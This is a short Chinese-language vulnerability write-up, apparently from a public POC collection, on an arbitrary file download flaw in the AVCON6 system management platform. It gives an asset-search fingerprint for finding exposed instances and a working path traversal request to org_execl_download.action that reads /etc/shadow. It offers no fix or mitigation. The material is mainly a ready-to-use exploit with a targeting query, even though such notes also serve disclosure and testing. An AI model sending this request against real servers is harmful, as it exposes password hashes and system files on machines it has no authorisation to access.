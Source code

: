 # AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](images/202202101910822.png)

验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

![img](images/202202101910818.png)